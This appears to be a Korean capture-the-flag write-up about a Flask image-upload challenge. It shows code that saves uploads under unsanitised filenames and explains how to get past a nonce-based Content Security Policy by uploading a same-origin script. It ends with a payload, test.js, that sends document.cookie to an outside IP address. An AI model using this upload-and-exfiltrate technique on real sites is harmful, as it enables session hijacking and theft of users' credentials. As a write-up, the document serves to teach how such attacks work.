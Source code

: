 |

```python
image_file = request.files['image']
```

업로드된 파일을 가져옴

|

```python
if image_file:
    filename = (image_file.filename)
    image_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
    image_file.save(image_path)
else:
    image_path = None
```

`image_file`이 있으면 파일 업로드 경로와 파일명을 합쳐 `image_path`에 저장 후 

`save` 메서드로 `image_path`에 파일 저장

파일이 없으면 `image_path`를 `None`으로 설정

|

|

|

## Exploit

```python
response.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}' 'self'"
```

코드를 보면 `/`와 `/post`에서 `nonce`값이 계속 바뀜.

로컬에서는 프록시 툴 등으로 `nonce`값을 알아내어 스크립트를 실행할 수 있지만, 봇을 통해 쿠키를 탈취하는 과정에서는 바뀐 `nonce`를 직접 설정할 수 없어 스크립트 실행이 불가능함.

하지만 `self`로 **동일 출처의 외부 스크립트**는 실행 가능

파일을 업로드하고, 해당 파일 경로로 이동하여 스크립트를 실행하도록 해야함

|

```html
<script src="/uploads/test.js"></script>
```

```jsx
// test.js

location.href="http://20.41.120.97:10010/"+document.cookie
```
